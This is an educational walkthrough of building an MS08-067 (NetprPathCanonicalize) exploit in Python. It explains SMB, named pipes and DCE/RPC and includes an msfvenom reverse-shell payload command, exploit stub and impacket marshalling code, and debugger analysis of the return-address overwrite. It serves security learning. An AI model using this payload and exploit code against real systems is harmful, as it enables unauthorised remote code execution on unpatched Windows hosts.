# Getting the exploit working

This exploit is primarily written as a learning tool alongside the derivation guide below, it is intended as a documentation of my exploit development process as well as a brief literature review of the various components associated with the ms08_067 vulnerability, such as SMB, DCE/RPC, and named pipes. However, if you must break things with the code, ensure that you first have permission to test the target, and that you test the exploit in your own environment beforehand. 

The return addresses within the exploit should work perfectly for Windows XP SP 0 and 1 as is, any other targets will require a different return address and potentially some DEP and ASLR by-pass, see the source code of the ms08_067_netapi module in metasploit for more information. 

Also, no matter the target, you will have to replace the payload with your own shellcode (to include source/target ip addresses etc), this can be done simply by running the msfvenom command:
```bash
msfvenom --payload windows/shell_reverse_tcp --nopsled 7 LHOST=<your.ip.address.here> EXITFUNC=thread --bad-chars "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -e x86/jmp_call_additive
```
and copying the output into the exploit code.


# Intro

The hacker ethos at its' core for me, just like any scientist, is an unbounded enthusiasm for understanding and communicating how things work. In lieu of this, I'll do my best to communicate what I've discovered, as well as how I discovered it, and indicate at each point where I've got my information from. I think that contributing the best way to feel legitimately involved in a community. So here it is, my first contribution, a walkthrough of the MS08_067 vulnerability, culminating with putting the exploit together myself in python.

Let's start with the fact that MS08_067 is a bug, and it was given this rather bland codename because it was the 67th bugfix in 2008 by Microsoft. It was a particularly devastating bug, because prior to the update all a variety of Windows versions were exploitable at factory settings, without any credentials whatsoever, and completely automatable. So I recognise that at almost a decade old this is an ancient vulnerability, but during my time as a penetration tester in 2016/2017 I have discovered a fair number of machines *still* vulnerable to this.

So how does it work? let's start with the short explanation given with the bug on Rapid7 Vulndb:
> This module exploits a parsing flaw in the path canonicalization code of NetAPI32.dll through the Server Service. This module is capable of bypassing NX on 
> some operating systems and service packs. The correct target must be used to prevent the Server Service (along with a dozen others in the same process) from 
> crashing. Windows XP targets seem to handle multiple successful exploitation events, but 2003 targets will often crash or hang on subsequent attempts. This 
> is just the first version of this module, full support for NX bypass on 2003, along with other platforms, is still in development.


This gives us relatively few clues as to the actual mechanism of the vulnerability. Also, I had no idea what the NetBIOS/SMB ports 139 and 445 actually did, never mind what NetAPI32.dll or NetprPathCanonicalize() were. Now however, after some pretty in-depth research I can inform you that the actual mechanism for the vulnerability is as follows, I will go into each step in greater detail later:
1. Negotiate an anonymous session with smb.
1. Connect to the DCE/RPC IPC$ share, Inter-Process Communication, which is available in anonymous sessions over smb. 
1. The browser named pipe is available to to write to, as the Computer Browser service it was originally intended for advertising the file systems of the computer, so a small number of low privelege utility functions are available remotely. 
1. Once a named pipe has been selected to communicate, we are faced with a program known as the End Point Mapper (EPM), which when passed the UUID of the Server Service, will bind any further input to the services.exe remote procedure call interface. 
1. There we pass opcode 31, for NetprPathCanonicalize along with the marshalled parameters. Along with these parameters is a malformed path, with an embedded shellcode and jumper.
	1. Path is ‘malformed’ as the error is triggered by the ‘\\..\’ previous directory syntax. The code looks for the \ before this pattern and copies the whole path back to that (e.g. C:\Program Files\\..\Users is ‘canonicalized’ to C:\Users). If the first slash is at the beginning of the path, we copy our shellcode to before the beginning of the string, overwriting the function return address.
	1. A 'jumper' is a series of memory addresses of instructions from elsewhere in the program which handle things like NX (DEP, or non-executable stack) protection bypass before jumping to the shellcode. This is the most important part of the exploit, as this is the part of the payload which overwrites the return address of the exploited function and takes control of EIP (as soon as execution hits the 'ret' assembly instruction, which is shorthand for 'pop EIP').
	1. shellcode can be anything, I used a reverse shell generated by metasploit.
1. shellcode executes, pwn.

# SMB and NetBIOS, and negotiating our initial connection

God knows why this took so long to pick apart, they are almost always mentioned in the same sentence, the familiar sentence is “TCP port 445 and 139 are SMB/NetBIOS” and as far as I can tell that is because they are almost indistinguishable smooshed together practically. However, as protocols, they are completely different things. In short NetBIOS is essentially a communication API, providing NetBIOS names among other things, but it is used by the SMB protocol on port TCP 139 to share computer resources, like printers and disk space. This makes SMB the microsoft implementation of a CIFS, and due to its' importance, Microsoft decided to give it its' own port, SMB over TCP/IP, port 445. Let's make this concrete by talking about them separately.

## NetBIOS

NetBIOS is as its' name suggests, a Network Basic Input-Output System. The first sentence reads "NetBIOS (Network Basic Input/Output System) is a program that allows applications on different computers to communicate within a local area network (LAN).", which is pretty general and esoteric, suggesting that it may be more integral to the function of network computers than I initially thought. [0]

According to this link [1], NetBIOS is an API for general abstraction of communication within a network, It allowed a program to simply call NetBIOS functions to handle network transport without worrying about the messy details of networked computers. NetBIOS names were included in this; "It included an addressing scheme that used 16-byte names to identify workstations and network-enabled applications.". It seems also that SMB came to being out of NetBIOS, people used to build makeshift solutions to redirect disk IO via the NetBIOS interface so that disk space could be shared across a network, this eventually split off into the SMB protocol. 

NetBIOS over TCP/IP (Or NBT) came later. As TCP/IP became the most commonly used network transfer medium, all Windows computers by default came with NBT serving directly over TCP port 139. SMB still uses NBT for legacy compatibility to this day.

A few terms you might see in discussions of NetBIOS:
OSI: Open System Interconnection, provides the session and transport services.
NetBUI: standard frame or data format for transmission.
NCB: Network Control Block, specify message location and name of a destination (possibly referring to the NetBIOS name). Apparently the main function of NetBIOS abstracts away the details of transmitting messages in a session, via NCB.

This concludes my discussion of NetBIOS as I have found it does not play a part in the exploit that I am explaining today, we are concerned with SMB over TCP/IP, which is served over TCP port 445. Although it could be argued that we could trigger the vulnerability in question by negotiating an SMB connection over the NetBIOS NBT interface discussed earlier, there is no evident advantage of doing this (Unless port 445 is blocked off maybe), so I will declare this out of scope.

[0] http://searchnetworking.techtarget.com/definition/NetBIOStps://www.samba.org/samba/docs/SambaIntro.html

[1] https://www.samba.org/samba/docs/SambaIntro.html

[2] http://superuser.com/questions/694469/difference-between-netbios-and-smb


## SMB

SMB, as discussed in the previous section, was born out of NetBIOS as many users redirected disk IO through NetBIOS to share it across a network, and it was decided that this functionality deserved its own protocol. SMB in fact, has become way more than just a disk space sharing protocol, it in fact has become a general framework for sharing computer resources. So now that we know that SMB is separate to NetBIOS, and that SMB can sometimes use NetBIOS as an API for communication. What is SMB? The definition from [0] reads:
>SMB, which stands for Server Message Block, is a protocol for sharing files, printers, serial ports, and communications abstractions such as named pipes and mail slots between computers.

SMB is a modern implementation of something called a CIFS (Common Internet File System). A main scenario of using SMB is a client accessing a SMB share server by logging in as a user. The user is given priveleges per file in the share, and can open, read, write, files etc.
According to the [1], the “four basic modern-day CIFS services” are:
* File & print services
* Authentication and Authorization
* Name resolution
* Service announcement (browsing)

Unfortunately, the link I have provided is over 16 years old. Even though since then SMB has become WAY more complicated [2]  (Link is for Samba, an open source version of Windows SMB approximating the same functionality). Modern SMB still holds these 4 main functionalities at its' core, with the crucial additions of MSRPC (Microsofts' name for DCE/RPC), and active directory. 

So, going back to our exploit, the vulnerability is in the Server Service DCE/RPC interface. This is one of the core functionalities of SMB, so therefore an SMB connection is required for access to the vulnerable function. Let's discuss this connection next.


[0] https://www.samba.org/cifs/docs/what-is-smb.html 

[1] https://www.samba.org/samba/docs/SambaIntro.html

[2] https://wiki.samba.org/index.php/Main_Page


### Negotiating an anonymous connection with SMB

The actual establishing of a session with SMB is simply a protocol specific handshake detailed in [1]. However, the complexity comes in when we introduce the concept of a NULL, or an anonymous, session. This is a session in which no credentials whatsoever are given to the server by the connecting computer, this was used in the past by Windows computers to query a server for the resources it is sharing across the network, it was convenient until hackers identified this as a rich active information gathering attack vector [2]. 

A quote from [1], we send 2 packets to establish an SMB session:


> * SMB_COM_NEGOTIATE -- Sent as normal
> * SMB_COM_SESSION_SETUP_ANDX -- Contains authentication information, if we're logging in with a user account.


DCE/RPC (which I will explain fully in the next section) is the Remote Procedure Call protocol which hosts our vulnerability today. However, in order to access the DCE/RPC interface we first need to navigate two constructs, the SMB IPC$ share, and the SMB named pipe, and both need to be explained before moving on.

### The IPC$ share

The IPC$ share stands for Inter-Process Communication, and is the conduit for the DCE/RPC service within SMB. There are many different shares within SMB, such as C$ for sharing the computers' C drive, PRINT$ allows the computer to share its' printer, and IPC$ is just one of those shares [4]. Shares can be given passwords on a share level, or in more modern versions of Windows, access is granted on a user by user basis [5]. However the IPC$ share always allows anonymous access within a NULL session [0], and access is granted or denied later at the ‘named pipe’ level. The named pipe requires its' own section to explain, so we'll get to that later.

Another quote from [1], after establishing an SMB session, we need to connect to the IPC$ share:
> SMB_COM_TREE_CONNECT_ANDX -- We use this to connect to a special share "IPC$". Everybody should have access to this share, no matter the user level.

### Named Pipes

The general definition for a named pipe from [7] is:
> Named Pipes is a protocol developed for local area networks. A part of memory is used by one process to pass information to another process, so that the 
> output of one is the input of the other. The second process can be local (on the same computer as the first) or remote (on a networked computer).

whereas the definition of named pipes from wikipedia [6], in the context of Windows IPC, is:
“Named pipes is also a networking protocol in the Server Message Block (SMB) suite, based on the use of a special inter-process communication (IPC) share.”

From these definitions, we can assume that the vulnerable server service (srvsvc) will subscribe to a named pipe, and publish some methods along with the vulnerable NetprPathCanonicalize(). So, in order to find the correct pipe to serve our exploit, we need to first find the pipe that the Server Service is listening on. In DCE/RPC the Server Service connects to a named pipe on start up, and assigns its' RPC interface a Universally Unique Identifier or UUID, which just happens to be 4b324fc8-1670-01d3-1278-5a47bf6ee188 from [9]:



Looking for this UUID and associating it with a named pipe is easy with a brilliant tool set called rpctools (Google it and dig around, make sure to run anything you find in a VM as theres' some pretty dodgy sites serving the zip file, alternatives which are not quite as thorough are metasploits' endpoint_mapper, and the nmap script msrpc-enum.nse). In particular from rpctools is rpcdump.exe with the -v flag, this lists all RPC endpoints, including all RPC named pipes, with all services attached to each. The output is:

```bash

IfId: 5a7b91f8-ff00-11d0-a9b2-00c04fb6e6fc version 1.0
Annotation: Messenger Service
UUID: 00000000-0000-0000-0000-000000000000
Binding: ncadg_ip_udp:192.168.206.132[1026]
RpcMgmtInqIfIds succeeded
Interfaces: 15
367abb81-9844-35f1-ad32-98f038001003 v2.0
93149ca2-973b-11d1-8c39-00c04fb984f9 v0.0
82273fdc-e32a-18c3-3f78-827929dc23ea v0.0
65a93890-fab9-43a3-b2a5-1e330ac28f11 v2.0
8d9f4e40-a03d-11ce-8f69-08003e30051b v1.0
8d0ffe72-d252-11d0-bf8f-00c04fd9126b v1.0
c9378ff1-16f7-11d0-a0b2-00aa0061426a v1.0
0d72a7d4-6148-11d1-b4aa-00c04fb66ea0 v1.0
4b324fc8-1670-01d3-1278-5a47bf6ee188 v3.0
300f3532-38cc-11d0-a3f0-0020af6b0add v1.2
6bffd098-a112-3610-9833-46c3f87e345a v1.0
6bffd098-a112-3610-9833-012892020162 v0.0
17fdd703-1827-4e34-79d4-24a55c53bb37 v1.0
5a7b91f8-ff00-11d0-a9b2-00c04fb6e6fc v1.0
3ba0ffc0-93fc-11d0-a4ec-00a0c9062910 v1.0

...

IfId: 5a7b91f8-ff00-11d0-a9b2-00c04fb6e6fc version 1.0
Annotation: Messenger Service
UUID: 00000000-0000-0000-0000-000000000000
Binding: ncacn_np:\\\\EVIE-DAX7N4F9KX[\\PIPE\\ntsvcs]
RpcMgmtInqIfIds succeeded
Interfaces: 15
367abb81-9844-35f1-ad32-98f038001003 v2.0
93149ca2-973b-11d1-8c39-00c04fb984f9 v0.0
82273fdc-e32a-18c3-3f78-827929dc23ea v0.0
65a93890-fab9-43a3-b2a5-1e330ac28f11 v2.0
8d9f4e40-a03d-11ce-8f69-08003e30051b v1.0
8d0ffe72-d252-11d0-bf8f-00c04fd9126b v1.0
c9378ff1-16f7-11d0-a0b2-00aa0061426a v1.0
0d72a7d4-6148-11d1-b4aa-00c04fb66ea0 v1.0
4b324fc8-1670-01d3-1278-5a47bf6ee188 v3.0
300f3532-38cc-11d0-a3f0-0020af6b0add v1.2
6bffd098-a112-3610-9833-46c3f87e345a v1.0
6bffd098-a112-3610-9833-012892020162 v0.0
17fdd703-1827-4e34-79d4-24a55c53bb37 v1.0
5a7b91f8-ff00-11d0-a9b2-00c04fb6e6fc v1.0
3ba0ffc0-93fc-11d0-a4ec-00a0c9062910 v1.0

IfId: 5a7b91f8-ff00-11d0-a9b2-00c04fb6e6fc version 1.0
Annotation: Messenger Service
UUID: 00000000-0000-0000-0000-000000000000
Binding: ncacn_np:\\\\EVIE-DAX7N4F9KX[\\PIPE\\scerpc]
RpcMgmtInqIfIds succeeded
Interfaces: 15
367abb81-9844-35f1-ad32-98f038001003 v2.0
93149ca2-973b-11d1-8c39-00c04fb984f9 v0.0
82273fdc-e32a-18c3-3f78-827929dc23ea v0.0
65a93890-fab9-43a3-b2a5-1e330ac28f11 v2.0
8d9f4e40-a03d-11ce-8f69-08003e30051b v1.0
8d0ffe72-d252-11d0-bf8f-00c04fd9126b v1.0
c9378ff1-16f7-11d0-a0b2-00aa0061426a v1.0
0d72a7d4-6148-11d1-b4aa-00c04fb66ea0 v1.0
4b324fc8-1670-01d3-1278-5a47bf6ee188 v3.0
300f3532-38cc-11d0-a3f0-0020af6b0add v1.2
6bffd098-a112-3610-9833-46c3f87e345a v1.0
6bffd098-a112-3610-9833-012892020162 v0.0
17fdd703-1827-4e34-79d4-24a55c53bb37 v1.0
5a7b91f8-ff00-11d0-a9b2-00c04fb6e6fc v1.0
3ba0ffc0-93fc-11d0-a4ec-00a0c9062910 v1.0

```

Bingo, we have 3 interfaces which lead to our target UUID. One of the bindings starts with ncadg_ip_udp, and two with ncacn_np, these are called ‘transports’, a DCE/RPC concept that we'll get to in the next section, all we need to know for now is ncacn_np refers to named pipes so the latter two are of interest for our needs. Also notice that EVIE-DAX7N4F9KX is the NetBIOS name of the target computer. So moving forward we have two interesting named pipes, ntsvcs and scerpc. 

Subsequent pages of [0] also goes on to explain the dwindling number of named pipes which are available for null sessions over time. With each new Windows release, more Active Directory control is given to restrict anonymous named pipe access. Especially [8], which identified the \pipe\browser share as an alias of ntsvcs, as well as \pipe\wkssvc, \pipe\srvsvc. Also from [8], the browser pipe seems to always be available for SMB NULL session access (At least until Windows XP). let's query these interfaces directly using another tool from rpctools, ifids.exe:





They do indeed advertise an identical set of interfaces (ntsvcs), and this set of interfaces includes the Server Service interface. Just to show that you cannot simply pick any named pipe for communication with the server service, I include a query of some lsass aliases:



Which do not include the Server Service as expected. So then, let us select \pipe\browser as the named pipe for our exploit. [1] shows us that selecting a named pipe to write to is like creating or opening a file to write to, we send one more SMB packet:
> After the three standard initial packets, another common packet is sent -- SMB_COM_NT_CREATE. This is the packet used to create and open files. In this case, it's used to open a named pipe (since we're attached to the IPC$ share, you can't actually create files).
Now we've selected a pipe, let's move on to the next section, where we discuss the request to write to the pipe, and the DCE/RPC protocol.

[0] http://www.hsc.fr/ressources/articles/win_net_srv/null_sessions_shares_restrictions.html

[1] https://blog.skullsecurity.org/2008/calling-rpc-functions-over-smb

[2] https://pen-testing.sans.org/blog/2013/07/24/plundering-windows-account-info-via-authenticated-smb-sessions

[3] https://www.offensive-security.com/metasploit-unleashed/scanner-smb-auxiliary-modules/ 

[4] https://en.wikipedia.org/wiki/Administrative_share

[5] http://phrack.org/issues/60/11.html

[6] https://en.wikipedia.org/wiki/Named_pipe

[7] https://technet.microsoft.com/en-us/library/ms187892(v=sql.105).aspx

[8] http://www.hsc.fr/ressources/articles/win_net_srv/hardcoded_named_pipes.html

[9] http://www.hsc.fr/ressources/articles/win_net_srv/well_known_named_pipes.html


# DCE/RPC, EPM, ncacn_np, and stretching the acceptable use of the acronym

So, this is as far as SMB will take us, we have a NULL session with the IPC$ share as well as the \pipe\browser named pipe, which we have permission to write to. The next step is to bind to the DCE/RPC interface of the Server Service, select the NetprPathCanonicalize() function from the Server Service interface, and pass the parameters (along with our payload) to the remote function. We will start by researching the DCE/RPC protocol, to get a better idea of what we are dealing with.

## DCE/RPC

DCE/RPC stands for Distributed Computing Environment Remote Procedure Call, and it's in essence a protocol describing how one computer can call a function on another computer remotely. The system we are interested in is actually called MSRPC, which is simply Microsofts' implementation of the DCE/RPC protocol [0]. There are five main concepts that we need to be aware of before we can understand the mechanism of executing a function remotely via MSRPC, these are binding, end points, stubs, marshalling, and transports. Before I break down each concept, I'd like to first show an overview of an RPC call.

## RPC Transaction Overview

The aim of an RPC call is to select a function known to be supported by the ‘end point’, and call it from the context of our own process on our own machine. Now technically for DCE/RPC, the end point does not necessarily have to be remote, it could for example call a function from a locally hosted RPC interface belonging to a separate process. In practice however, both local and remote mechanisms are essentially the same, this is because the communicating processes are assumed to have separate address spaces.

* *binding:* Binding to an end point is the process of selecting the RPC interface in order to pass our function to the right place. This is accomplished by providing the transport protocol, the UUID of the end point, and both the UUID and version number of the specific interface [5]. This allows the End Point Mapper (EPM) to guide the function data we will send to the correct service interface on the server.
* *Stubs:* A stub is made up of two pieces of code, a client and a server piece, which have the purpose of abstracting away the complexity of implementing and managing the RPC protocol over the wire [1]. The client stub is designed to function like any other function in the calling program, passing parameters and receiving return values as usual. The stub is written in and copiled from IDL (Interface Definition Language). The IDL of the NetprPathCanonicalize function is given here [7], which provides information about the parameters and their expected binary representation for transport across the wire, this information is important for when we ‘marshall’ our parameters.
* *Marshalling:* In order for parameters of a function to be passed to a remote function, they need to be packed into a standard binary format in order to be transmitted, in DCE/RPC this representation is known as the Network Data Representation (Or NDR). The actual binary format for parameter data types was quite an elusive thing to find, the absolute legend at [2] delivers again though with a series of python functions which marshall each data type into its' corresponding NDR. For my implementation however, I used a python library for interacting with the DCE/RPC protocol called impacket [4]. The documentation for impacket is unfortunately thin on the ground at best, as far as I can see, so one can inspect to code to find the classes used to convert parameters to their NDR (predictably in the file ndr.py).
* *Transports:* DCE/RPC itself does not define the exact method to transport the information used to make an RPC call across the wire, so it is left up to the specific implementation of DCE/RPC to define and implement its' own mechanisms. MSRPC implements a whole host of transport mechanisms, from ncacn_http for the http protocol, ncacn_ip_tcp for TCP/IP, to ncacn_np for SMB named pipes [3]. Our transport method of choice was found to be ncacn_np when we queried the end point mapper in the previous section.
* *Operation Number:* This identifies the function within the RPC interface, for our purposes the operation number for NetprPathCanonicalize is 0x1f, or 31 in decimal [6]. The Operation number is passed along with the marshalled parameters to execute the function call.





[0] http://www.hsc.fr/ressources/articles/win_net_srv/msrpc_intro.html

[1] https://msdn.microsoft.com/en-us/library/aa373935(v=vs.85).aspx

[2] https://blog.skullsecurity.org/2008/calling-rpc-functions-over-smb

[3] http://www.hsc.fr/ressources/articles/win_net_srv/msrpc_transports.html

[4] https://www.coresecurity.com/corelabs-research/open-source-tools/impacket

[5] http://pubs.opengroup.org/onlinepubs/9629399/chap2.htm

[6] https://msdn.microsoft.com/en-us/library/cc247234.aspx

[7] https://msdn.microsoft.com/en-us/library/cc247258.aspx


# Finally, The Pwn

My implementation of the interaction with SMB and DCE/RPC to deliver the payload was based on a combination of:
* the ‘Proof of Concept’ MS08_067 python exploit code, written by Debasis Mohanty
* the reverse shell shellcode generated by the metasploit framework
* my own custom payload to trigger the vulnerability, based on my analysis of the metasploit exploit in action, using OllyDebug.

I'll try to go through in detail how each of these sources contributed to my working MS08_067 exploit. A short disclaimer, I do not attempt to incorporate a stack cookie, NX, or ASLR bypass here, although I have read [1] that stack cookies are in fact bypassed by this exploit by coincidence, and NX (DEP, stack protection) can be disabled by a very simple adjustment of my code. I have only implemented and tested this for my own specific use case, a Windows XP target pre SP2. If you wish to implement this exploit for another Windows version, refer to the ‘targets’ section of the ms08_067_netapi.rb script in the metasploit framework.

So, let's begin with the Debasis Mohanty ‘Proof of Concept’ code. For me, it did not work at all, and I couldn't really work out why during my investigation. For example, I extracted the payload to investigate whether it was indeed a bind shell. Using the simple skeleton c code used to test shellcode [0] I ran the payload in a fresh throwaway VM (Don't execute mystery shellcode in a computer you like / want to keep!!). The result was:



So it is a reverse shell payload as it claims to be! So what on earth could be going wrong? I followed the execution through to the end in Ollydbg and a Windows 2000 machine I managed to wangle from [2]  (They're keeping a load of old OSs as disk images, useful!). What I found was slightly unexpected, the exploit was causing a crash when the target attempted to execute a seemingly arbitrary location in the padding of the payload, somehow the Debasis Mohanty payload is misaligned. 

```python
self.__stub='\x01\x00\x00\x00' #I believe these first 2 lines are to do with marshalled parameters.
self.__stub+='\xd6\x00\x00\x00\x00\x00\x00\x00\xd6\x00\x00\x00' 
self.__stub+=shellcode
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41' #EIP lands somewhere in this sea of \x41s
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41' #resulting in a crash
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41'
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41' 
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41'
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41'
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41'
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41'
self.__stub+='\x00\x00\x00\x00'
self.__stub+='\x2f\x00\x00\x00\x00\x00\x00\x00\x2f\x00\x00\x00'
self.__stub+=payload
self.__stub+='\x00\x00\x00\x00' #I believe from here on is also to do with marshalled parameters.
self.__stub+='\x02\x00\x00\x00\x02\x00\x00\x00'
self.__stub+='\x00\x00\x00\x00\x02\x00\x00\x00'
self.__stub+='\x5c\x00\x00\x00\x01\x00\x00\x00'
self.__stub+='\x01\x00\x00\x00'
```

I decided to resolve this issue by reverse engineering a working payload, the one contained in metasploit, which I will document below. 

First, I have another small quibble with the payload. There seems to be a clear attempt to marshall the additional parameters required for the NetprPathCanonicalize call indicated in the listing above, unfortunately though it does so directly in hexadecimal rather than use the impacket library. I agree that the impacket library for MSRPC is about as unusable as it gets, but I thought I would give my best attempt at marshalling arguments properly. I dug pretty deep into the python files and found an example of marshalling parameters, srvsvc.py.

```python
class SRVSVCNameCanonicalize(Structure):
    opnum = 34
    alignment = 4
    structure = (
       ('RefID','<L&ServerName'),
       ('ServerName','w'),
       ('Name','w'),
       ('OutbufLen','<H'),
       ('NameType','<H'),
       ('Flags','<H')
    )
```

and

```python
def NetprNameCanonicalize(self, serverName, name, bufLen, nameType):
      NameCReq = SRVSVCNameCanonicalize()
      NameCReq['ServerName'] = (serverName+'\x00').encode('utf-16le')
      NameCReq['Name'] = (name+'\x00').encode('utf-16le')
      NameCReq['OutbufLen'] = bufLen
      NameCReq['NameType'] = nameType
      NameCReq['Flags'] = 0x0
      data = self.doRequest(NameCReq, checkReturn = 1)
      return data
```


are really close to what I need, so I adapted this to the following code, refering to the stub definition in [3]:

```python
class NetprPathCanonicalize(Structure):
    opnum = 31
    alignment = 4
    structure = (
        ('RefID','<L&ServerName'),
        ('ServerName','w'),
        ('PathName','w'),
        ('OutbufLen','<H'),
        ('Prefix','w'),
        ('PathType','<H'),
        ('Flags','<H')
    )
```

and

```python
self.query = NetprPathCanonicalize()
self.query['ServerName'] = "ABCDEF\x00".encode('utf-16le')
self.query['PathName'] = self.__stub
self.query['OutbufLen'] = 60
self.query['Prefix'] = "\\\x00".encode('utf-16le')
self.query['PathType'] = 4096
self.query['Flags'] = 0x0
```

Pretty much the only other change I made to the Debasis Mohanty proof of concept code is the shellcode and the payload hexadecimal, which is all contained in one parameter within the NetprPathCanonicalize call, the PathName parameter. For my implementation of the exploit I will build this path payload from the ground up, and In the next section, I will document this process in depth.

[0] http://www.vividmachines.com/shellcode/shellcode.html

[1] https://www.exploit-db.com/docs/320.pdf

[2] https://winworldpc.com/

[3] https://msdn.microsoft.com/en-us/library/cc247258.aspx


# Developing the Payload using OllyDbg

### Screen 0)


A screenshot of the call stack, as mentioned in the original exploit blurb we can see that NetprPathCanonicalize is called from NetAPI32.dll, which in turn is called from the Server Service (srvsvc).




### Screen 1)


This is the main loop of NetprPathCanonicalize (0x751770C4 to 0x751770DA), tracking forward through the payload path, looking for ‘\’ (0x5C) or ‘.’ (0x2E) characters. On discovering one of these characters, we break out of the loop and move into the two code sections involved in the vulnerability. 
Of the main code sections:
-The first marks a newly found ‘\’ character as the ‘current slash’ and assigns the old pointer in this variable to a ‘previous slash’ variable.
-The second is followed in the below screenshots and is activated by ‘..\’ or ‘\x2E\x00\x2E\x00\x5C\x00’, two invocations leads to payload code execution. The first invocation executes the first copy, and via the bug, selects the new ‘previous slash’ to be before the beginning of the payload string, a ‘\’ character which just happens to be higher up the stack. The second time the code section is executed, the payload is copied back to the ‘previous_slash’ pointer selected earlier, further up the stack, overwriting the return address of the string copy function.




### Screen 2)


The bug loop (0x7518CD2D to 0x7518CD3F). decrements the pointer in EAX in a loop only exiting if the pointer in EAX is *equal* to the pointer to the beginning of the string (0x7518CD3B) or EAX points to the hexadecimal \x5c (or ‘\’)(0x7518CD31). This leads to a bug because the address loaded into EAX from ESP+8 at the beginning of the loop is *the character before* the beginning of the string, meaning the only loop escape condition that can ever be met is when a ‘\’ is found, this is before the beginning of the string! Pwn.




### Screen 3,4,5)


The entry point to the exploit code, the "jumper" code, is stored in the EDI register 0x0141F60C, which makes sense as EDI is the typical register chosen by the compiler as the destination of an array copy. So in order to execute the jumper code, we must overwrite the return address of the current function (string copy) with an instruction that will redirect execution to the contents of the EDI register, such as Call EDI. Below is step by step illustration of the string copy function return address being overwritten. The string being copied is Unicode 16-bit encoded, therefore it is overwritten in two steps by the payload string; \xC3\xCC\x18\x75 -> \xB0\x1C\x18\x75, \xB0\x1C\x18\x75 -> \xB0\x1C\x1F\x00. 
